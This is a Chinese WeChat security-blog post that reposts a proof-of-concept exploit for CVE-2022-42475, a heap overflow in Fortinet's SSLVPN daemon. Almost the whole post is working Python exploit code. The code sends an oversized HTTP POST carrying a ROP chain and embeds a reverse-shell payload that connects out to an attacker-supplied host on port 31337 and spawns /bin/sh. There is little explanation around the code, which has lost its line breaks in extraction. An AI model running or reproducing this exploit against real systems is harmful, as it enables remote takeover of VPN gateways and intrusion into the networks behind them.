 #  Cve-2022-42475 飞塔

[ Khan安全攻防实验室 ](javascript:void\(0\);)

**Khan安全攻防实验室** ![]()

微信号 KhanCJSH

功能介绍 安全不是一个人，我们来自五湖四海。研究方向Web内网渗透，免杀技术，红蓝攻防对抗，CTF。

____

___发表于_

收录于合集

https://github.com/scrt/cve-2022-42475

利用 Fortinet 的 SSLVPN 守护进程中的堆溢出的 POC 代码

![](https://gitee.com/fuli009/images/raw/master/public/20230321090156.png)

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    import socketimport sslfrom pwn import *import timeimport sysimport requests  
    context = ssl.SSLContext()target_host = sys.argv[1]target_port = sys.argv[2]reverse = sys.argv[3]params = sys.argv[4].split(" ")strparams = "["for param in params:    strparams += "'"+param+"',"strparams = strparams[:-1]strparams += "]"  
      
    #binary functionsexecve = p64(0x0042e050)  
    #binary gadgetsmovrdirax = p64(0x00000000019d2196)# : mov rdi, rax ; call r13poprsi = p64(0x000000000042f0f8)# : pop rsi ; ret)poprdx = p64(0x000000000042f4a5)# : pop rdx ; ret)jmprax = p64(0x0000000000433181)#: jmp rax)pops = p64(0x000000000165cfd7)# : pop rdx ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret)poprax = p64(0x00000000004359af)# : pop rax ; ret)gadget1 = p64(0x0000000001697e0d); #0x0000000001697e0d : push rbx ; sbb byte ptr [rbx + 0x41], bl ; pop rsp ; pop rbp ; retpoprdi = p64(0x000000000042ed7e)# : pop rdi ; retrax3 = gadget1  
      
      
    #hardcoded value which would probably need to be bruteforced or leakedhardcoded = 0x00007fc5f128e000  
    scbase = p64(hardcoded)rdi = p64(hardcoded + 0xc48)cmd = p64(hardcoded + 0xd38)asdf = hardcoded + 0xd38cmd1 = p64(asdf)cmd2 = p64(asdf+16)arg1 = p64(asdf+48)arg2 = p64(asdf+56)arg3 = p64(asdf+64)  
    ropchain = popraxropchain += execveropchain += poprdiropchain += cmd1ropchain += poprsiropchain += cmd2ropchain += poprdxropchain += p64(0)ropchain += jmpraxropchain += b"/bin/python\x00\x00\x00\x00\x00"ropchain += arg1ropchain += arg2ropchain += arg3ropchain += p64(0)ropchain += b"python\x00\x00"ropchain += b"-c\x00\x00\x00\x00\x00\x00"ropchain += b"""import socket,sys,os\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(('"""+ reverse.encode() + b"""',31337))\n[os.dup2(s.fileno(),x) for x in range(3)]\ni=os.fork()\nif i==0:\n os.execve('/bin/sh', """+strparams.encode()+b""",{})\n\x00\x00"""  
      
      
    try:    with socket.create_connection((target_host, int(target_port,10))) as sock:        with context.wrap_socket(sock, server_hostname=target_host) as ssock:            ssock.settimeout(2)            context.verify_mode = ssl.CERT_NONE            payload = b"A"*173096+rdi+poprdi+cmd+pops+b"A"*40+pops+rax3+b"C"*32+ropchain            tosend = b"POST /remote/error HTTP/1.1\r\nHost: "+target_host +b"\r\nContent-Length: 115964117980\r\n\r\n" + payload            ssock.sendall(tosend)            r = ssock.recv(10024)except Exception as e:    print("Exception occurred :"+ repr(e))

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

